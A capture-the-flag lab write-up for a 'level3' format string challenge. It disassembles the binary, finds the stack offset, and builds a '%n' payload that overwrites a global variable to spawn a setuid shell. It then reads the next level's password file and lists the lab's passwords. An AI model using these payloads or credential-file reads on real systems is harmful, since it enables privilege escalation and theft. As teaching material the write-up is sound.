 # Level3 - Format string vulnerability - Basic write short integer

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level3 | `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02` |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level3` user

```shell
ssh level3@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

Notice there is a binary with level3 setuid and setgid.

2. Debug level3

Execute level3

```shell
./level3
(stdin) abcdef
> abcdef
```

Seems to be like level2.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  v
  0x0804851a  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804851a <+0>:     push   ebp
  0x0804851b <+1>:     mov    ebp,esp
  0x0804851d <+3>:     and    esp,0xfffffff0
  0x08048520 <+6>:     call   0x80484a4 <v>                     # call v()
  0x08048525 <+11>:    leave
  0x08048526 <+12>:    ret

gdb-peda$ pdisas v
  0x080484a4 <+0>:     push   ebp
  0x080484a5 <+1>:     mov    ebp,esp
  0x080484a7 <+3>:     sub    esp,0x218
  0x080484ad <+9>:     mov    eax,ds:0x8049860                  # 0x8049860 <stdin@@GLIBC_2.0>
  0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax           # buffer starts at esp+0x8
  0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200         # fgets maxLength = 0x200 (512)
  0x080484be <+26>:    lea    eax,[ebp-0x208]
  0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
  0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484cc <+40>:    lea    eax,[ebp-0x208]
  0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
  0x080484d5 <+49>:    call   0x8048390 <printf@plt>            # call printf(buf)
  0x080484da <+54>:    mov    eax,ds:0x804988c
  0x080484df <+59>:    cmp    eax,0x40                          # if $eax == 0x40 (64) ?
  0x080484e2 <+62>:    jne    0x8048518 <v+116>                 # if != jump leave
  0x080484e4 <+64>:    mov    eax,ds:0x8049880                  # 0x8049880 <stdout@@GLIBC_2.0>
  0x080484e9 <+69>:    mov    edx,eax
  0x080484eb <+71>:    mov    eax,0x8048600                     # 0x8048600:       "Wait what?!\n"
  0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
  0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc           # nmemb=12
  0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1           # size=1
  0x08048504 <+96>:    mov    DWORD PTR [esp],eax
  0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>            # call fwrite("Wait what?!\n", 1, 12, stdout)
  0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d         # 0x804860d:       "/bin/sh"
  0x08048513 <+111>:   call   0x80483c0 <system@plt>            # call system("/bin/sh")
  0x08048518 <+116>:   leave
  0x08048519 <+117>:   ret
```

We can see, there is a function `fgets`. In the previous level, `gets` function was the vulnerability. As `fgets` is protected with a `size` parameter to control the number of chars readed, the function is safe.

Then there is an unsafe `printf` syscall. Unsafe because the argument `buf` is directly passed without any format string.

Using printf specifiers we can use this buffer to read and write the stack. This vulnerability is called "Format string attack".

```bash
~/level3 <<< %p
0x200 # print first content after printf argument

~/level3 <<< "%08x.%08x.%08x\n"
> 00000200.b7fd1ac0.b7ff37d0\n # print 3 addresses after printf argument

gdb-peda$ b printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff42c --> 0x80484da (<v+54>: mov    eax,ds:0x804988c)
0004| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0008| 0xbffff434 --> 0x200
0012| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2288
0016| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0020| 0xbffff440 ("AAAA\n")
0024| 0xbffff444 --> 0xb7e2000a
0028| 0xbffff448 --> 0x1
[------------------------------------------------------------------------------]
```

We can see an offset of 4 between the printf argument (`0xbffff430`) and the real address of the buffer (`0xbffff440`).

```bash
/level3 <<< 'AAAA.%4$p'
AAAA.0x41414141
```

The specifier `%4$p` prints the 4th address before the printf argument, which contains our buffer string

But the goal is to replace the value of the global variable `m` with 0x40 (64).

To do that, we will use the specifier `%n`. According to the printf() man page, here is what %n should do :

> The number of characters written so far is stored into the integer indicated by the int \* (or variant) pointer argument. No argument is converted.

Basically, it means that `%n` will write the size of our input at the address pointed by `%n`. For example, the following input : `AAAA%n`, means that we will write the value 4 (because the size of "AAAA" equals 4) at the address pointed by `%n`.

The address of the global `m` is `0x0804988c` in big endian.

We have to have a format string like: `<ADDRESS_TO_WRITE_ON> + <PADDING> + "%n"`

```
=> `"\x8c\x98\x04\x08" + "A" * (64 - 4) + "%4$n"`
            |             |                |________ %n specifier with offset of 4
            |             |_________________________ padding of size 60 to write the value 64
            |_______________________________________ m address
```

Lets try

```shell
gdb-peda$ b*v+54
gdb-peda$ run < <(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"')

[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 --> 0x804988c --> 0x40 ('@')
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 --> 0x804988c --> 0x40 ('@')
[------------------------------------------------------------------------------]

gdb-peda$ continue
> Wait what?!
  [New process 5560]
  process 5560 is executing new program: /bin/dash
```

Great! `0xbffff440` has now the value 0x40, and the terminal has been created

We don't have the level4 rights with gdb. Lets try directly with the binary to access the shell:

```bash
(echo `python -c 'print "\x8c\x98\x04\x08" + "%60x" + "%4$n"'` ; cat) | ~/level3
> Wait what?!

$ id
> uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)

$ cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)

- [gets vs fgets](https://iq.opengenus.org/gets-vs-fgets-in-c/#:~:text=depends%20on%20system-,gets()%20keeps%20reading%20input%20until%20newline%20character%20or%20end,of%20input%20characters%20is%20reached.)

- [Format string attack - Introduction](https://owasp.org/www-community/attacks/Format_string_attack)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
